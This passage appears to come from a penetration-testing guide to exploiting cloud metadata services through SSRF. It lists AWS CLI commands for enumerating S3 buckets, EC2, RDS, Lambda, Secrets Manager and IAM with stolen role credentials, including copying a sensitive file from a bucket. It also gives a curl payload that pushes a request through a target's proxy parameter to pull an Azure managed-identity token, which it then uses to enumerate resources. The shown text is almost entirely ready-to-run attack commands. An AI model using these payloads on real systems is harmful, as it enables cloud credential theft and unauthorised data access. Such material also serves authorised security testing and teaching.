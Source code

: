 ```bash
    "Arn": "arn:aws:sts::123456789012:assumed-role/WebAppRole/i-1234567890abcdef0"
}

# Now enumerate what you can access
```

#### Step 4: Enumerate AWS Resources

```bash
# S3 buckets
aws s3 ls
aws s3 ls s3://BUCKET_NAME
aws s3 cp s3://BUCKET_NAME/sensitive-file.txt .

# EC2 instances
aws ec2 describe-instances

# RDS databases
aws rds describe-db-instances

# Lambda functions
aws lambda list-functions

# Secrets Manager
aws secretsmanager list-secrets

# IAM (if you have permissions)
aws iam list-users
aws iam list-roles
```
--- 

### Azure Metadata Exploitation

```bash
# Extract managed identity token
curl -H "Metadata:true" "http://TARGET/proxy?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# Output contains access_token
# Use with Azure CLI:
export AZURE_ACCESS_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGc..."

# Enumerate Azure
az account show
az resource list
az vm list
az storage account list
```

### GCP Metadata Exploitation
